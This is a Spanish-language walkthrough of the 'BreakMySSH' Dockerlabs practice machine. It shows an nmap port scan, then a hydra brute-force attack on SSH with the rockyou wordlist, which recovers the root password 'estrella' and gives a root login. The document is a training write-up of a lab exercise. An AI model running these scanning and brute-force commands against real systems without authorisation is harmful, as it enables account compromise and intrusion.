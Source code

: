 # Máquina BreakMySSH

Dificultad -> Muy fácil

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
```

--------------
## Explotación

Solo vemos el puerto **ssh** por lo que aplicamos fuerza bruta con usuarios y contraseñas comunes y la herramienta **hydra**:
Para los usuarios he escogido un diccionario de metasploit -> /usr/share/metasploit-framework/data/wordlists/unix_users.txt
Y para las contraseñas el **rockyou** -> /usr/share/wordlists/rockyou.txt

```shell
hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
-------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   password: estrella
```

Encontramos una contraseña -> **estrella**

Resultan ser las credenciales del usuario **root**. Podemos acceder mediante:

```shell
ssh root@172.17.0.2
-> root@172.17.0.2's password: estrella
```

Estamos dentro, y como hemos entrado con **root** tenemos el nivel de privilegios máximos en el sistema !
